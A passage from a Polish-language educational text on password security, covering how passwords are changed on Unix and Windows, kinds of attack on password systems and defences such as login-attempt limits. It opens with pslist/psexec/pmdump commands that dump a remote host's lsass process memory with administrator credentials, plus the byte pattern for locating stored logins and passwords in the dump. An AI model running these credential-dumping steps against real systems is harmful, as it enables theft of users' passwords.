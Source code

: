 ```
C:\>pslist lsass \\192.168.0.49 -u administrator -p pass (pobiera pid procesu lsass)
C:\>psexec.exe \\192.168.0.49 -c pmdump.exe 220 foo.dat (220 = pid procesu lsass w trakcie tego testu)
C:\>move \\192.168.0.49\admin$\system32\foo.dat c:
```

Wystarczy otworzyć przygotowany plik `foo.dat` za pomocą edytora heksadecymalnego i poszukać ciągu ‘0E003F000001080000000000’, dane dotyczące loginu i hasła są przechowywane 20 bajtów za podanym ciągiem. Widać tutaj, iż administrator jest wstanie poznać hasła użytkowników omijając część modelu bezpieczeństwa.

#### Zmiana hasła

W większości systemów z rodziny UN*X hasło zmienia się za pomocą polecenia passwd. Program prosi o podanie starego hasła (ma to za zadanie uchronić przed niepowołaną zmianą hasła przez intruza jeżeli użytkownik zostawi swój terminal), potem użytkownik podaje nowe hasło i program zmienia zawartości plików `/etc/passwd` (ewentualnie `/etc/shadow`).

W dystrybucjach Linuksa istnieje możliwość manualnego edytowania plików, w systemie FreeBSD nie jest to zalecane, ponieważ system ten generuje także binarne pliki pwd.db na podstawie passwd i master.passwd.

W systemach Windows zarządzanie hasłami odbywa się przez narzędzie Zarządzanie komputerem znajdujące się w Narzędziach administracyjnych w Panelu sterowania.

### Ataki na systemy haseł

Każde hasło, nawet najsilniejsze może być skompromitowane. Skompromitowanie hasła oznacza poznanie go przez osobę do tego nieupoważnioną. Niebezpieczeństwo jest widoczne na każdym etapie wykorzystywania hasła. Zagrożenie rozpoczyna się już nawet w momencie wpisywania hasła – intruz może zajrzeć użytkownikowi przez ramię lub może wystarczy mu tylko analiza samych ruchów ramion?

Kolejną możliwością skompromitowania hasła jest przesłanie go niezabezpieczonym kanałem z terminala do hosta. Jeżeli intruz pozna podczas takiej transmisji hasło jednokrotne nie powinno mieć to dużego znaczenia dla bezpieczeństwa całego systemu. Gdy użytkownik posiada słabe hasło, hasło będące prostym słowem może narazić system na ataki słownikowe. Ataki te polegają na intensywnych próbach dopasowania znanych wzorców za pomocą przeszukiwania wyczerpującego. Wszelkie możliwości ataków wynikają ze słabości systemu haseł.

Istnieje szereg niedogodności korzystania z haseł jako metody uwierzytelniania:
+ W procesie identyfikacji hasło udowadniającego P (z ang. prover) staje się znane weryfikatorowi V (z ang. verifier). V może podszywać się dzięki temu pod P.
+ Jeżeli V nie identyfikuje się P, intruz I ( z ang. intruder ) może podszyć się pod V w celu pozyskania hasła P.
+ Jeżeli hasło jest niezależne od czasu, I może próbować ataków przez powtórzenie.

Relacje między P i V są wysoce asymetryczne. Aby wyeliminować problem przekazywania “sekretnej” informacji należy skorzystać z silnej identyfikacji podmiotów (o tym później). Zabezpieczenie się przed atakami przez powtórzenie wiąże się ze sposobem implementacji systemu uwierzytelniającego. Wprowadzenie zasady trzech prób logowania dziennie, oddalonych o określoną ilość czasu skutecznie może uniemożliwić lawinowe ataki przez wypróbowywanie kolejnych haseł.

### Inne modele identyfikacji
